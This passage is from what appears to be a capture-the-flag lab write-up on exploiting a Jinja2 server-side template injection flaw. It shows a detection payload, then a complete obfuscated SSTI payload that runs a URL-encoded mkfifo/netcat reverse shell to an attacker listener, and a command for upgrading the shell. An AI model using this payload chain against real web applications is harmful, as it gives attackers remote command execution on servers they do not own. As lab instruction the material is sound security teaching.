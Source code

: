 Using simple payloads can confirm if SSTI is possible. e.g., `{{ 7*7 }}`.

The diagram below from [PortsSwigger](https://portswigger.net/research/server-side-template-injection) can help confirm if an SSTI vulnerability is present and also identify the underlying template engine.

<img src="/assets/img/2024/iclean/portswiggerssti.png" alt="portswiggerssti.png" class="auto-resize">


### **Construct the Malicious Payload**

Assuming Jinja2, and with the help of [A Simple Flask (Jinja2) Server-Side Template Injection (SSTI) Example (kleiber.me)](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/) the following payload was constructed:


```{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%2010.10.14.9%204000%20%3E%2Ftmp%2Ff")|attr("read")()}}```

URL-encoding and inputting the payload into the vulnerable parameter and sending the request results in a shell.

<img src="/assets/img/2024/iclean/icleanqrgenhttp.png" alt="icleanqrgenhttp.png" class="auto-resize">


<img src="/assets/img/2024/iclean/icleannclistener.png" alt="icleannclistener.png" class="auto-resize">

### Stabilising the shell

The shell can be stabilised with the following python command.

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```
